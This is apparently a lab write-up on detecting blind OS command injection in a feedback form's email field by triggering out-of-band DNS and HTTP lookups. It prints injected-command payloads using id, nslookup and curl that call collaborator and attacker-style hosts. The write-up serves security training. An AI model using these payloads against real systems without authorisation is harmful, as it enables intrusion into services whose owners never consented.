



# Blind OS command injection with out-of-band interaction

### Goal - 

Exploit blind OS command injection to issue a DNS lookup to Burp Collaborator

### Analysis/Exploitation 

First have a look at the website and its feedback feature. I submit a feedback and send the request to repeater. In the previous lab, we found that the `email` parameter is vulnerable to blind OS command injection:
I assume that the attack vector is the same as in the other labs: the email input field.

try to do **OS command injection** in the `email` parameter:

`;id;#`



However, there’s no output of our command in the response, it might be vulnerable to blind OS command injection.


💡 We can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:



```bash
& nslookup kgji2ohoyw.web-attacker.com &

```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.

Therefore I open a new Burp Collaborator client and generate a new payload. URLencode the payload to avoid breaking the request.

```bash
;nslookup bl0niom9dypwrc3t6yvw24d2htnkbazz.oastify.com;#
```



we successfully received 2 DNS lookups, which means the feedback function is indeed vulnerable to blind OS command injection!!

**Besides from **`nslookup`**, we can also use **`curl`**:**

`;curl bl0niom9dypwrc3t6yvw24d2htnkbazz.oastify.com;# `


